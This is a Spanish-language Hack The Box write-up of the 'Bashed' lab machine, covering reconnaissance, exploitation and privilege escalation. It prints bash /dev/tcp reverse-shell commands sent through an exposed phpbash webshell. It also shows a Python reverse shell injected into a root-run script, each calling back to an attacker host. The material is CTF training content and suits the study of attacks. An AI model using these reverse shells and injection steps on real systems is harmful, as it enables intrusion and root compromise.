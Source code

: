# 🧰 Hack The Box — Bashed

- **IP:** 10.10.10.68  
- **Nivel:** Fácil  
- **Sistema operativo:** Linux  
- **Categoría:** Web, Escalada de Privilegios  
- **Flag user:** ✅  
- **Flag root:** ✅  

---

## 🧾 Información general

Bashed es una máquina Linux de nivel básico en Hack The Box. En este reto, un desarrollador dejó un archivo *webshell* accesible en el servidor, permitiendo acceso como `www-data`. A partir de ahí, se escalaron privilegios aprovechando configuraciones incorrectas hasta conseguir acceso como `root`.

---

## 🔍 Fase 1: Reconocimiento

### WhatWeb

```bash
whatweb http://10.10.10.68
```

![WhatWeb Scan](./images/whatweb.png)

#### Resultados:
- Servidor web: Apache 2.4.18 sobre Ubuntu
- Soporte para PHP detectado
- Página principal estática → Posibles rutas ocultas

---

## 🚪 Fase 2: Escaneo y enumeración

### Escaneo Nmap

```bash
nmap -sCV 10.10.10.68
```

#### Parámetros:
- `-sC`: scripts por defecto
- `-sV`: detección de versiones

![Nmap Scan -sCV](./images/nmap-scv.png)
  
#### Resultado:
- Puerto **80/tcp** abierto → Apache 2.4.18


### Enumeración web con script

```bash
nmap --script http-enum -p80 10.10.10.68
```

![HTTP Enum](./images/http-enum.png)

#### Resultados:
- Directorio **/dev/** descubierto
- Contenido del directorio: `phpbash.php` → Shell web funcional

---

## 💥 Fase 3: Explotación

Se utilizó el archivo `phpbash.php` para lanzar una **reverse shell**:

### Reverse shell

Desde `phpbash.php`:

```bash
bash -c "bash -i >%26 /dev/tcp/10.10.14.22/4444 0>%261"
```

En el atacante:

```bash
nc -lvnp 4444
```

![Shell www-data](./images/phpbash-shell.png)


##### Resultado:
- Shell obtenida como `www-data`.

### Estabilizar shell

```bash
script /dev/null -c bash
```

![Shell estabilizada](./images/stable-shell.png)


---

## ⬆️ Fase 4: Escalada de privilegios

### Verificar permisos sudo

```bash
sudo -l
```

![sudo -l](./images/sudo-l.png)

##### Resultado:
- `www-data` puede ejecutar comandos como scriptmanager sin contraseña.

### Cambiar a scriptmanager

```bash
sudo -u scriptmanager /bin/bash
```

![Cambio a scriptmanager](./images/scriptmanager-shell.png)

### Buscar archivos con permisos

```bash
find / -user scriptmanager 2>/dev/null | grep -v "proc"
```

![find test.py](./images/find-testpy.png)

##### Resultado:
- Archivo `/scripts/test.py` con permisos de escritura.

### Inyectar Reverse Shell en `test.py`

```bash
echo "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.22/4445 0>&1\"')" > /scripts/test.py
```

Desde el atacante:

```bash
nc -lvnp 4445
```

![Root shell](./images/root-shell.png)

##### Resultado:
- Shell obtenida como `root`.

---

## 🏁 Fase 5: Post-explotación

### Flags

```bash
cat /home/arrexel/user.txt
```

![Flag user](./images/flag-user.png)

```bash
cat /root/root.txt
```

![Flag root](./images/flag-root.png)
